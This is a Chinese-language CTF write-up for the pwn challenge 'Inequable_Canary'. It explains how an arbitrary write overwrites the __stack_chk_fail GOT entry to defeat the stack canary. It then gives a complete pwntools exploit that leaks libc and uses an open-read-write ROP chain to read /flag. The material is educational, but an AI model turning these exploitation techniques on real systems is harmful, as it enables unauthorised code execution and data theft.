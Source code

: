 ```yaml
---
title: Inequable_Canary
date: 2025-01-07
type: posts
draft: false
categories:
  - CTF-PWN
tags:
  - linux
  - ctf
  - pwn
  - writeup
  - stack
  - ret2csu
---
```


[题目链接](./Inequable_Canary.7z)

一个畸形的 canary

<!--more-->

## 题目分析

checksec：

![checksec](checksec.png)

基本上只开了个 Canary 栈保护。

沙箱：

![seccomp](seccomp.png)

程序没有去符号，main 函数能看出来通过输入可以直接写入 ret_addr 修改函数返回地址：

![main](main.png)

函数列表里还有 2 个函数 hint 和 vuln。

hint 是个 `jmp rsp`：

![hint](hint.png)

vuln：

![vuln](vuln.png)

利用 Tell me the location of the Eye of the Deep Sea 向 `rbp + 0x40` 写入 0x10 字节，再利用 I have magic 的 `sys_read` 可向 `rbp + 0x38` 中指向的位置写 8 字节，也就是可以实现向任意位置写 8 字节。

Let's go! 后的 `read` 读取 0x100 内容到栈上，预分配空间只有 0x20，存在栈溢出，但是程序开了 canary 保护，直接栈溢出会导致 `___stack_chk_fail` 检查不通过。

## 解题思路

看起来程序是想让我们控制 main ret_addr 跳到 vuln 这里，利用 vuln 栈溢出构造 rsp rop。

但是需要先绕过 canary：利用任意位置写修改 `got[___stack_chk_fail]` 使 canary 检查失效。

然后构造正常栈溢出 ROP 就可以。需要两次，第 1 次把 libc 基址泄漏出来，第 2 次是 orw 获取 flag。

## poc

```python
from pwn import *

context.arch = 'amd64'

elf = ELF("./canary")
# libc = ELF("./libc-2.31.so")
libc = ELF("/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6")

O_RDONLY = p64(0)
pop_rax = libc.search(asm('pop rax\nret'), executable=True).__next__()
pop_rdx_r12 = libc.search(asm('pop rdx\npop r12\nret'),
                          executable=True).__next__()
# pop_rdx_4 = libc.search(asm('pop rdx\nxor eax, eax\npop rbx\npop r12\npop r13\npop rbp\nret'), executable=True).__next__()
syscall_ret = libc.search(asm('syscall\nret'), executable=True).__next__()

print(hex(pop_rax))
print(hex(pop_rdx_r12))

p = process(["/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/ld-linux-x86-64.so.2",
             "./canary"], env={"LD_PRELOAD": "/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6"})
# p=remote('139.155.126.78',15806)

# gdb.attach(p)

# pause()

vuln_addr = p64(elf.sym['vuln'])
pop_rdi = p64(0x400a63)         # pop rdi; ret
pop_rsi_r15 = p64(0x400a61)     # pop rsi; pop r15; ret
pop_3 = p64(0x400a5e)           # pop three times  <===> add rsp, 0x18; ret
stack_fail_got = p64(elf.got['__stack_chk_fail'])
read_got = p64(elf.got['read'])
write_addr = p64(elf.sym['write'])
bss = p64(elf.bss())

p.sendafter("start the journey\n", vuln_addr)

# 栈溢出修改 __stack_chk_fail got，绕过 canary 检测
p.sendafter("Tell me the location of the Eye of the Deep Sea\n",
            b'a'*8+stack_fail_got)
p.sendafter("I have magic\n", pop_3)

# rop栈溢出ret -> write，获取 libc 基址
payload = pop_rdi + p64(1) + pop_rsi_r15 + read_got + \
    p64(0) + write_addr + vuln_addr
p.sendafter("Let's go!\n", payload)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['read']
print(hex(libc_base))

# 栈溢出写入/flag到bss
p.sendafter("Tell me the location of the Eye of the Deep Sea\n", b'a'*8+bss)
p.sendafter("I have magic\n", b'/flag\0\0\0')

pop_rax = p64(libc_base + pop_rax)
syscall_ret = p64(libc_base + syscall_ret)
# pop_rdx_4 = p64(libc_base + pop_rdx_4)
pop_rdx_r12 = p64(libc_base + pop_rdx_r12)


# pause()

# rop栈溢出ret -> open -> /flag
payload = pop_rdi + bss + pop_rsi_r15 + O_RDONLY + \
    p64(0) + pop_rax + p64(2) + syscall_ret
# open -> read
# payload += pop_rdi + p64(3) + pop_rsi_r15 + bss + p64(0) + pop_rdx_4 + p64(0x100) * 5 + pop_rax + p64(0) + syscall_ret
payload += pop_rdi + p64(3) + pop_rsi_r15 + bss + p64(0) + \
    pop_rdx_r12 + p64(0x100) * 2 + pop_rax + p64(0) + syscall_ret
# read -> write -> stdout
payload += pop_rdi + p64(1) + pop_rax + p64(1) + syscall_ret

p.sendafter("Let's go!\n", payload)

# gdb.attach(p)

p.interactive()

```
